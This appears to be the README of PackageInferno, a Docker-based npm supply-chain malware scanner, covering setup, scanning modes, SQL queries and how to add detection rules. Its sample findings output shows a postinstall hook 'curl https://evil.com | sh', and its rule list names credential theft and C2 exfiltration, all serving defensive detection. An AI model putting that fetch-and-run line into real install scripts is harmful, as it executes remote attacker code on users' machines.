

# PackageInferno

<p align="center">
  
</p>


Blazingly simple, Docker‑first npm supply‑chain scanner. One compose file runs:
- Enumerator → builds the queue of packages
- Fetcher → downloads tarballs (and optionally uploads to S3)
- Analyzer → static analysis + optional YARA
- Postgres → local DB for findings
- Streamlit Dashboard → visualize findings on http://localhost:8501

This is the container‑only edition. The project can be built to scale using EC2, SQS and RDS. Most of it is setup for it in the toolset. 

---

## What you get
- End‑to‑end pipeline in Docker (no host installs beyond Docker)
- Configurable rules via `scan.yml` (allowlists, thresholds, YARA)
- Local Postgres schema + scan history (`scan_runs`) ready to go
- Optional S3 uploads for tarballs and findings (credentials via `~/.aws`)
- Streamlit dashboard: search, drill‑down, and analytics

---

## Contents
- `docker-compose.yml` – services: db, enumerator, fetcher, analyzer, dashboard, init-db
- `enumerator/` – Node worker that builds the NDJSON queue
- `fetcher/` – Node worker that downloads tarballs (+ uploads to S3 if enabled)
- `analyzer/` – Python static analyzer (+ optional YARA inline)
- `dashboard/` – Streamlit app (port 8501)
- `infra/migrations.sql` – core DB schema (packages, versions, findings, scores, indexes)
- `infra/20251106_scan_runs.sql` – scan history table
- `scan.yml` – analysis configuration (rules, scoring, allowlists, YARA)
- `scripts/run_pipeline.sh` – run enumerate → fetch → analyze
- `scripts/init_db.sh` – bootstrap DB schema
- `scripts/test_setup.sh` – automated setup validation
- **`SCANNING_GUIDE.md`** – detailed scanning strategies and examples

---

## Quick start (local)
Prereqs: Docker Desktop (or engine) with Compose v2.

### Option A: Use Pre-built Images (Fastest)

Pull and run pre-built containers from GitHub Container Registry:

```bash
# Clone the repo (for config files and scripts)
git clone https://github.com/MHaggis/Package-Inferno.git
cd Package-Inferno

# Run with pre-built images
docker compose -f docker-compose.ghcr.yml up -d db
./scripts/init_db.sh
docker compose -f docker-compose.ghcr.yml run --rm enumerator
docker compose -f docker-compose.ghcr.yml run --rm fetcher
docker compose -f docker-compose.ghcr.yml run --rm analyzer
```

Available images:
- `ghcr.io/mhaggis/package-inferno/enumerator:main`
- `ghcr.io/mhaggis/package-inferno/fetcher:main`
- `ghcr.io/mhaggis/package-inferno/analyzer:main`

### Option B: Build from Source

### Automated Setup Validation

Run the test script to validate your installation:

```bash
./scripts/test_setup.sh
```

This will:
- ✓ Check Docker and Docker Compose
- ✓ Start and initialize the database
- ✓ Run a test scan (2 packages)
- ✓ Verify findings are stored correctly

### Manual Setup

1) Start Postgres and initialize schema:
```bash
docker compose up -d db
./scripts/init_db.sh
```

2) Run the pipeline:
```bash
./scripts/run_pipeline.sh
```

3) Launch the dashboard:
```bash
docker compose up -d dashboard
# open http://localhost:8501
```

Findings land under `./out/findings/*.findings.json` and in the `findings` table when DB is enabled.

---

## Scanning Modes

PackageInferno supports multiple scanning strategies depending on your goals:

| Mode | Use Case | Speed | Coverage | Command |
|------|----------|-------|----------|---------|
| **Specific Seeds** | Test/investigate known packages | Fastest | Targeted | `SEEDS="pkg1,pkg2"` |
| **Small Batch** | Validate setup, sample scan | Fast | 10-100 pkgs | `MAX_CHUNKS=2 CHUNK_LIMIT=10` |
| **Full Registry** | Comprehensive supply chain audit | Hours-Days | 2M+ pkgs | `MAX_CHUNKS=0 CHUNK_LIMIT=100` |
| **Changes Feed** | Monitor new releases (included automatically) | Real-time | Recent updates | Built-in |

### 1. Scan Specific Packages (Recommended for Testing)

Target specific packages you want to analyze:

```bash
# Single command with seeds
export SEEDS="lodash,express,axios"
./scripts/run_pipeline.sh

# Or from a file
echo -e "react\nvue\nangular" > packages.txt
export SEEDS_FILE=packages.txt
./scripts/run_pipeline.sh
```

**How I tested initially:** Used `SEEDS="is-odd,is-even"` for quick validation.

### 2. Scan from npm Registry (_all_docs)

Scan packages paginated from npm's registry:

```bash
# Clean previous runs
rm -rf downloads/* out/*

# Scan 2 pages of 10 packages each (20 packages)
export MAX_CHUNKS=2        # Number of pages
export CHUNK_LIMIT=10      # Packages per page
unset SEEDS                # Important: disable seeds mode

# Run individual steps for better visibility
docker compose run --rm enumerator  # Discovers and queues
docker compose run --rm fetcher     # Downloads tarballs
docker compose run --rm analyzer    # Scans for threats
```

**Example output:**
```
config: chunkLimit=10, maxChunks=2
checking recent changes feed...
changes feed: enqueued 2 new versions
enumerating via _all_docs (fresh scan)
page 1/2 count: 10
page 2/2 count: 10
done, enqueued 22 (22 new versions)
```

### 3. Continuous Monitoring (Unbounded Scan)

Scan the entire npm registry:

```bash
export MAX_CHUNKS=0        # 0 = unbounded
export CHUNK_LIMIT=100     # Larger batches for efficiency
./scripts/run_pipeline.sh
```

**Warning:** This will run for hours/days and scan hundreds of thousands of packages. Monitor disk space and database size.

### 4. Resume Interrupted Scans

The enumerator saves state to `./out/enumerator_state.json` with cursor position:

```json
{
  "last_seq": "0",
  "last_startkey": "package-name",
  "last_run": "2025-11-23T19:24:49.123Z",
  "last_processed": 22,
  "last_new": 22
}
```

Simply re-run the pipeline and it will resume from the last cursor:

```bash
./scripts/run_pipeline.sh  # Automatically resumes
```

To force a fresh scan:
```bash
rm -f out/enumerator_state.json
./scripts/run_pipeline.sh
```

### Example Scan Results

From a 2-page scan of 22 packages, here's what PackageInferno detected:

```sql
-- Top suspicious packages by score
SELECT p.name, s.score, s.label, COUNT(f.id) as findings 
FROM packages p 
JOIN versions v ON p.id = v.package_id 
JOIN scores s ON v.id = s.version_id 
LEFT JOIN findings f ON v.id = f.version_id 
GROUP BY p.name, s.score, s.label 
ORDER BY s.score DESC;

-- Results:
   name                | score | label      | findings
-----------------------+-------+------------+----------
 rendition             | 606   | malicious  | 153
 vs-deploy             | 454   | malicious  | 119
 --123hoodmane-pyodide | 213   | malicious  | 46
```

**What made `rendition` so suspicious?**
- 57 × `url_outside_allowlist` - Non-allowlisted domains
- 46 × `suspicious_pattern` - Shell/eval patterns
- 12 × `advanced_obfuscation` - Hex encoding, XOR, string arrays
- 6 × `big_base64_blob` - Large encoded payloads
- 18 × `url_in_code` - Embedded URLs

The scoring system (configured in `scan.yml`) aggregates these findings to produce a risk score and label (`clean`, `suspicious`, or `malicious`).

---

## Exploring Results

### Via Dashboard (Recommended)

Open http://localhost:8501 after running `docker compose up -d dashboard`

**Features:**
- 📊 **Overview Tab**: Summary stats, score distribution charts
- 🔍 **Search Tab**: Find packages by name, filter by risk label
- ⚠️ **High Risk Tab**: Top malicious packages with drill-down
- 🎯 **C2 Analysis**: Packages with known exfiltration endpoints
- 📈 **Analytics Tab**: Trends, common rules, temporal analysis

### Via Database Queries

Direct SQL access for custom analysis:

```bash
# Connect to database
docker exec -it pi-postgres psql -U piuser -d packageinferno
```

**Useful queries:**

```sql
-- Packages with credential theft attempts
SELECT DISTINCT p.name, v.version, s.score
FROM packages p
JOIN versions v ON p.id = v.package_id
JOIN findings f ON v.id = f.version_id
JOIN scores s ON v.id = s.version_id
WHERE f.rule = 'env_snoop'
ORDER BY s.score DESC;

-- All C2/webhook destinations found
SELECT p.name, f.details->>'endpoints' as c2_endpoints
FROM packages p
JOIN versions v ON p.id = v.package_id
JOIN findings f ON v.id = f.version_id
WHERE f.rule = 'c2_webhook';

-- Typosquatting attempts
SELECT 
  p.name,
  f.details->>'target_package' as impersonating,
  f.details->>'similarity' as similarity_pct,
  f.details->>'typosquat_type' as attack_type
FROM packages p
JOIN versions v ON p.id = v.package_id
JOIN findings f ON v.id = f.version_id
WHERE f.rule = 'typosquat_detected'
ORDER BY (f.details->>'similarity')::float DESC;

-- Packages with native binaries
SELECT p.name, f.details->>'path' as binary_path
FROM packages p
JOIN versions v ON p.id = v.package_id
JOIN findings f ON v.id = f.version_id
WHERE f.rule = 'native_binary_present';
```

### Via JSON Files

Findings are also saved as structured JSON in `./out/findings/`:

```bash
# View findings for a specific package
cat out/findings/packagename@1.0.0.findings.json | jq .

# Count findings by severity
jq -r '.findings[].severity' out/findings/*.findings.json | sort | uniq -c

# Extract all C2 URLs found
jq -r '.findings[] | select(.rule=="c2_webhook") | .details.full_urls[]' out/findings/*.findings.json
```

---

## Optional: S3 integration (tarballs + findings)
If you want artifacts in S3:
- Create buckets (choose your own names):
  - `package-inferno-tarballs` (raw npm tarballs)
  - `package-inferno-findings` (analyzer outputs)
- Ensure your `~/.aws` contains valid credentials (profile or environment based).
- Export env vars before running the pipeline:
```bash
export AWS_REGION=us-west-2
export S3_TARBALLS=package-inferno-tarballs
export S3_FINDINGS=package-inferno-findings
export AWS_PROFILE=default   # optional; or rely on env creds
```
The compose mounts `~/.aws` into fetcher and analyzer. If `LOCAL_ONLY=false`, the fetcher uploads tarballs to `S3_TARBALLS`. If `S3_FINDINGS` is set, analyzer uploads findings JSON after writing locally.

Minimal IAM policy example (attach to user/role you’re using):
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "S3Access",
      "Effect": "Allow",
      "Action": ["s3:PutObject","s3:GetObject","s3:ListBucket"],
      "Resource": [
        "arn:aws:s3:::package-inferno-tarballs",
        "arn:aws:s3:::package-inferno-tarballs/*",
        "arn:aws:s3:::package-inferno-findings",
        "arn:aws:s3:::package-inferno-findings/*"
      ]
    }
  ]
}
```

---

## Configuration
Main knobs live in `scan.yml`. Highlights:
- `analysis.allow_domains` – domains that won’t raise “outside allowlist”
- `analysis.allowlist.build_tools` – regexes for benign build steps
- `analysis.yara.*` – enable inline YARA (default on), rule path, size/time limits
- `scoring.rule_weights` and `scoring.thresholds` – tune “suspicious/malicious”

Container environments you can set:
- Enumerator:
  - `DAYS` (default 30), `CHUNK_LIMIT` (default 100), `MAX_CHUNKS` (default 5)
  - `SEEDS`, `SEEDS_FILE` – seed package names
  - `LOCAL_ONLY=true` (queue to file), `DB_URL` for dedupe against DB
- Fetcher:
  - `LOCAL_ONLY=false` to upload tarballs to S3
  - `S3_TARBALLS`, `AWS_REGION`, `AWS_PROFILE`
- Analyzer:
  - `MAX_EXTRACT_BYTES=0` for unlimited extraction
  - `S3_FINDINGS`, `AWS_REGION`
  - `DB_URL` to write findings and scores into Postgres

The DB URL is pre‑wired for local compose:
```
postgres://piuser:pipass@db:5432/packageinferno
```

---

## How it works (flow)
1) Enumerator hits npm registry and writes an NDJSON queue to `./out/fetch_queue.ndjson` (and can upsert "queued" versions to DB).
2) Fetcher reads the queue, downloads tarballs to `./downloads`, and uploads to S3 if configured.
3) Analyzer scans tarballs with heuristics + optional YARA and writes structured findings JSON to `./out/findings`. If DB is configured, it upserts findings and scores.
4) Dashboard queries the local DB to visualize stats, search packages, and drill into details.

---

## Component Details

### Enumerator (`enumerator/src/enumerator.js`)
**Purpose:** Discovers npm packages to scan and builds the work queue.

**What it does:**
- Pulls package metadata from npm's registry and replication feed
- Supports multiple modes:
  - **Seeds mode**: Scan specific packages via `SEEDS` env var or `SEEDS_FILE`
  - **Changes feed**: Monitor `_changes` endpoint for recent updates
  - **Full scan**: Paginate through `_all_docs` endpoint (with resumable cursor)
- Deduplicates against DB to avoid re-scanning analyzed versions
- Outputs NDJSON queue to `./out/fetch_queue.ndjson` or SQS

**Key environment variables:**
- `SEEDS="pkg1,pkg2"` - Comma-separated package names to scan
- `SEEDS_FILE` - Path to text file with one package per line
- `MAX_CHUNKS=5` - Limit pagination (0 = unbounded)
- `CHUNK_LIMIT=100` - Packages per API page
- `DB_URL` - Postgres connection for deduplication

**Example usage:**
```bash
# Scan specific packages
export SEEDS="lodash,express,axios"
docker compose run --rm enumerator

# Scan from file
echo -e "react\nvue\nangular" > packages.txt
export SEEDS_FILE=packages.txt
docker compose run --rm enumerator
```

---

### Fetcher (`fetcher/src/fetcher.js`)
**Purpose:** Downloads npm tarballs from the registry.

**What it does:**
- Reads queue from `./out/fetch_queue.ndjson` (or SQS)
- Downloads tarballs with retry logic and backoff
- Verifies SHA1 checksums (warns on mismatch)
- Saves to `./downloads/` as `scope__name@version.tgz`
- Optionally uploads to S3 bucket (`S3_TARBALLS`)
- Forwards completed jobs to analyzer queue (SQS mode)

**Key environment variables:**
- `LOCAL_ONLY=true` - Skip S3 uploads (local-only mode)
- `S3_TARBALLS` - S3 bucket name for tarball storage
- `DOWNLOAD_DIR=./downloads` - Local output directory
- `MAX_RETRIES=5` - HTTP retry attempts

**S3 key format:** `npm-raw-tarballs/{name}/{version}.tgz`

---

### Analyzer (`analyzer/src/analyzer.py`)
**Purpose:** Static analysis engine that detects malicious patterns in packages.

**What it does:**
- Extracts tarballs with safety checks (path traversal, size limits)
- Parses `package.json` for metadata and lifecycle hooks
- Scans all files for suspicious patterns:
  - **Lifecycle hooks**: Shell spawns, downloaders in install scripts
  - **Network activity**: HTTP clients, C2 webhooks (Discord, Telegram, etc.)
  - **Obfuscation**: High entropy, base64 blobs, hex encoding, XOR
  - **Credential theft**: Environment variable access, FS writes to sensitive paths
  - **Typosquatting**: Levenshtein distance + unicode substitution checks
  - **Phishing**: Fake CAPTCHA, credential forms, iframe embeds
  - **Binaries**: Native executables, WASM, prebuilt fetchers
- Runs YARA rules (downloaded from YARA-Forge) if enabled
- Scores findings using weighted rules from `scan.yml`
- Writes structured JSON to `./out/findings/` and upserts to DB

**Detection rules** (see `analyzer/src/analyzer.py` for full list):
- `lifecycle_script` - Risky install/postinstall hooks
- `url_outside_allowlist` - Network calls to non-allowed domains
- `c2_webhook` - Known exfil endpoints (Discord, Slack, Telegram)
- `env_snoop` - Access to AWS keys, tokens, passwords
- `writes_outside_pkg` - FS writes to `.ssh`, `.npmrc`, system dirs
- `typosquat_detected` - Package name similar to popular packages
- `advanced_obfuscation` - Hex, XOR, string arrays, control flow flattening
- `yara_match` - YARA rule hits (malware, exploits, webshells)
- `phishing_form` - Credential harvesting forms
- `native_binary_present` - PE/ELF/Mach-O executables

**Key environment variables:**
- `MAX_EXTRACT_BYTES=0` - Extraction size limit (0 = unlimited)
- `SCAN_YML=/app/scan.yml` - Path to config file
- `DB_URL` - Postgres connection for findings storage
- `S3_FINDINGS` - S3 bucket for findings upload

**Output format** (`*.findings.json`):
```json
{
  "tgz": "/downloads/pkg@1.0.0.tgz",
  "findings": [
    {
      "rule": "lifecycle_script",
      "severity": "high",
      "details": {
        "key": "postinstall",
        "value": "curl https://evil.com | sh",
        "tags": ["shell_spawn", "downloader"],
        "explanation": "High-risk postinstall hook: shell_spawn, downloader"
      }
    }
  ]
}
```

---

### Customizing the Analyzer

#### Adding New Detection Rules

**1. Pattern-based detection** (add to `analyzer/src/analyzer.py`):
```python
# Define regex pattern
CUSTOM_PATTERN_RE = re.compile(rb'dangerous-function\s*\(', re.I)

# Add to analyze_file_bytes() function
def analyze_file_bytes(path: Path, b: bytes, allow_domains: list[str]):
    # ... existing code ...
    
    # Your custom check
    if CUSTOM_PATTERN_RE.search(b):
        out.append({
            'rule': 'custom_dangerous_function',
            'severity': 'high',
            'details': {
                'path': str(path),
                'explanation': 'Detected dangerous-function call'
            }
        })
    
    return out
```

**2. Add scoring weights** (`scan.yml`):
```yaml
scoring:
  rule_weights:
    custom_dangerous_function: 6  # Your new rule
    # ... existing rules ...
  thresholds:
    suspicious: 7
    malicious: 12
```

**3. Update the scoring function** (`analyzer/src/analyzer.py`):
```python
def score_findings(findings, scoring):
    weights = scoring.get('rule_weights', {})
    score = 0
    for f in findings:
        rule = f['rule']
        w = 0
        # ... existing rules ...
        elif rule == 'custom_dangerous_function':
            w = weights.get('custom_dangerous_function', 6)
        score += int(w)
    # ... rest of function ...
```

#### Adding Custom YARA Rules

**1. Create custom rule file** (`yara-rules/custom.yar`):
```yara
rule CustomMalware {
    meta:
        description = "Detects custom threat pattern"
        severity = "high"
    strings:
        $s1 = "malicious_string" ascii
        $s2 = /evil_regex_[0-9]{4}/
    condition:
        any of them
}
```

**2. Update `scan.yml`**:
```yaml
analysis:
  yara:
    enabled: true
    rules_path: yara-rules/custom.yar  # Point to your rules
    max_file_size_mb: 10
    timeout_seconds: 30
```

**3. Mount custom rules in `docker-compose.yml`**:
```yaml
analyzer:
  volumes:
    - ./yara-rules:/app/yara-rules:ro
```

#### Domain Allowlist

Add trusted domains to `scan.yml` to reduce false positives:
```yaml
analysis:
  allow_domains:
    - registry.npmjs.org
    - github.com
    - your-cdn.com  # Add your domain
```

#### Benign Build Tools

Allowlist legitimate build commands:
```yaml
analysis:
  allowlist:
    build_tools:
      - \bmy-custom-build-tool\b
      - \bmake\s+clean\b
```

---

## Troubleshooting
- “Database connection failed”: make sure `docker compose up -d db` is running, then re‑run `./scripts/init_db.sh`.
- “AccessDenied” when pushing to S3: verify `~/.aws/credentials`, `AWS_REGION`, and bucket policy/permissions.
- YARA timeouts: lower file size limits or disable inline YARA in `scan.yml` (`analysis.yara.enabled: false`).
- Rate‑limits from npm: the pipeline retries with backoff and sets a UA; you can lower `CHUNK_LIMIT` or increase `MAX_CHUNKS` gradually.

